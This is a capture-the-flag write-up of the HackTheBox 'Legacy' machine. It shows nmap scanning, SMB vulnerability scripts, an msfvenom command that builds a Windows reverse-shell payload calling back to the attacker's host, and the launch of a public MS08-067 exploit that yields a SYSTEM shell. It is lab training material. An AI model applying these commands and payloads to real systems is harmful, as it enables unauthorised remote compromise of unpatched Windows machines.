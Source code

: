 ```yaml
---
layout: default
title: HackTheBox - Legacy Writeup
permalink: /htb/legacy
---
```


# Legacy

> **Name:** Legacy
>
> **Creator:** [ch4p](https://www.hackthebox.eu/home/users/profile/1)
>
> **Difficulty:** Easy


## Intro

[Legacy](https://www.hackthebox.eu/home/machines/profile/2) was released on 15 Mar 2017 and is one of the first boxes released on the platform. It is one of the easier Windows boxes available, which makes it a good place to start for beginners. I originally completed this when it had already retired and I was making my way through some of the older boxes to help further my understanding. As it was so simple I never made notes so I've had to fully go back and re-do the box to make this write-up. 


## Getting Started

As is always the case we start off with performing a full port scan against the box to  get an idea of what services are available. My preferred command is shown below:

``` nmap -p- 10.10.10.4 -sC -sV -oA full-scan ```

This command runs a SYN, or half-open scan against all ports. With the additional flags running default scripts, version detection and creating an output file in various formats. 

The scan gives the following results:

![Scan Results]({{site.url}}/assets/legacy/scan-results.png)


## Nmap Vulnerability Scan

The big thing to take away from these results is that it is a Windows XP box. This went end of life in April 2014, so there is bound to be some unpatched vulnerabilities to play with! SMB has had many vulnerabilities over the years and is a good place to start. A nice easy way to quickly check for vulnerabilities is using the Nmap scripting engine. By checking the contents of the Nmap scripts directory it is possible to see which ones are available.

![Nmap SMB Vuln Scripts]({{site.url}}/assets/legacy/nse-search.png)

As Nmap scripts are things that you may be checking quite often I find it useful to setup an alias to the command shown in the screenshot above. You can do this by adding the following line into your ```.bashrc``` file: 

``` alias nse=ls -al /usr/share/nmap/scripts/ | grep ```

Now you can just use ```nse smb-vuln``` to get the same results. Since there are so many SMB vuln scripts available in Nmap we will just load all of them up with the following command:

``` nmap -p 139,445 10.10.10.4 --script=smb-vuln* ```

The results show that the SMB service is vulnerable to MS08-067, made famous by Conficker, and MS17-010 that was made famous by the Wannacry ransomware attacks. As the box name is Legacy it's a safe assumption to make that MS08-067 is the intended method. Especially since I know there is another box that is has MS17-010 as the intended method. 

## Exploit

Searchsploit shows a few exploits are available for this, however there is a good one on Github by [Jivoi](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py) which has options for multiple OS. It does require some shelcode to be switched out for the reverse shell. This can be created using msfvenom with this command:

``` msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.32 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 ```

Lets breakdown what all those flags mean:

``` -p ``` is the payload of choice, in this case a simple TCP reverse shell for Windows.
``` LHOST= ``` is the listening host IP address to be set. 
``` LPORT= ``` is the port you want to listen on. 
``` EXITFUNC= ``` sets a function hash in the payload that specifies a DLL and a function to call once the payload is complete.
``` -b ``` is a list of bad characters - these were taken directly from Jivoi's script.
``` -f ``` is the format to create the shellcode in. 
``` -v ``` sets the variable that the shellcode will be assigned to. The default is ``` buf ``` and I am only changing this to match what is in the original script.
``` -a ``` sets the architecture the shellcode is to be run on. 

This will output some shellcode as show below, that can be copy pasted into the exploit to replace the existing shellcode. 

![Shellcode]({{site.url}}/assets/legacy/generate-shellcode.png)

As the existing script is written in python2 and debian / Kali having dropped support for it, the exploit needs to be updated to python3. I've uploaded a copy of it to [github](https://github.com/Agent-Tiro/HackTheBoxScripts/blob/master/Python3-MS08-067.py) incase it's of use to anyone else.

Running an Nmap scan to do OS detection gives an indication that it is most likely XP SP3.

![OS Detection]({{site.url}}/assets/legacy/aggressive-os.png)

The exploit is launched with the following command, using option 6 for XP SP3:

``` python3.7 ms08-067.py 10.10.10.4 6 445 ```

![Exploit]({{site.url}}/assets/legacy/legacy-exploit.png)

Upon completion the listener that was setup beforehand will have a shell waiting for us, running as SYSTEM. 

![Shell]({{site.url}}/assets/legacy/catching-shell.png)

As whoami isn't on this version of XP it would require uploading it to say definitively that we are SYSTEM. But there are a few giveaways. Firstly, landing in ``` C:\Windows\system32 ``` generally only happens for privileged users, and secondly being able to read the root flag.

